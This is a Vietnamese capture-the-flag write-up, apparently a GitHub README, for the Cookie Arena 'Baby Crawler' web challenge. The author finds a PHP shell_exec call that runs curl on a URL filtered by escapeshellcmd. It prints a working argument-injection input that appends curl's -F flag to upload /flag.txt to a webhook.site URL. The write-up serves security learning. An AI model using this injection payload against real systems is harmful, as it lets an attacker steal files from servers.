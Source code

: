 # CTF_cookie-Arena
Challenges CTF cookie arena with me


**1# Baby Crawler**

Writeup đầu tiên trong CTF_cookie-Arena này là challenge Baby Crawler với mình thì bài này không quá khó nhưng cũng làm tốn kha khá thời gian của mình và bắt đầu nào :>>
truy cập vào đường dẫn thử thách ta có giao diện chính của web như hình:
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/d3d6f79f-c20e-45de-8dba-c1e09b40ad04)
với nút CRAWL và 1 đường link đến https://vnexpress.net/viet-nam-xuat-khau-sang-my-latinh-mot-ty-usd-moi-thang-4541275.html khi bấm nút CRAWL web sẽ hiển thị 1 đường dẫn Cached File:
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/30ae0633-365c-4d7a-84cf-a44bf2f39971)
truy cập vào thì nó sẽ dẫn ta đến trang chưa nội dung của bài báo. Sau khi tìm hiểu chức năng cũng như cách hoạt động của web mình thử view-source xem có kiếm được source code hoặc đường dẫn ẩn nào không thì đập vào mắt mình là /?debug
![Screenshot 2024-06-12 000915](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/2764819a-475b-4c8e-9deb-520bf6969fcb) 
sau khi truy cập ?debug thì mình đã có được source của bài này (phần source mình có để ở Baby Crawler các bạn có thể xem)

Sau khi đọc source code thì mình đã chú ý đến đoạn sau

![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/13979d67-2497-46a2-b74e-03602dd6c598)

Có thê thấy trong code biến $url là untrusted data được đưa vào 1 hàm nguy hiểm như shell_exec xử lý. Đến đây việc còn lại là khai thác lỗi  Command Injection và làm sao để khai thác nó.Để thao túng được biến url ta phải dảm bảo 2 điều kiện 
**1 là bắt đầu là http do strpos sẽ kiễm tra chuỗi nhập có bắt đầu là http không 
2 là được filter bởi hàm **escapeshellcmd** thì trong PHP escapeshellcmd sẽ thoát khỏi các kí tự &#;`|*?~<>^()[]{}$\, \x0A and \xFF. ' và " **

Nhận thấy curl được nối chuỗi với phần escapeshellcmd($url) mình đã thử nhiều cách nhưng vẫn không thu được kêt quả gì do vướng escapeshellcmd . Bỏ qua hướng tiếp cận bằng && ; thì mình thử tìm hiểu coi curl có thể làm được gì thì mình đã tìm ra được curl có cho phép mình gửi nội dung của file tới một server ngoài bằng cờ -f (ex: curl -F "file=@/path/to/example.txt" https://api.example.com/upload). Tìm ra hướng đi mình bắt đầu thử nghiệm nó và server ngoài mình chọn để dùng là webhook.site và thực hiện input sau: https://webhook.site/1560d9e5-0482-4a96-b3d0-d1583a783b90 -F "file=@/flag.txt"
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/f7f80235-6165-4d2b-911d-8740724ab665) và ngay lập tức webhook mình nhận được gói tin
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/5c815677-e450-42f5-89b2-a6818746e1e0) lúc này mình chỉ cần download file chứa flag là xong







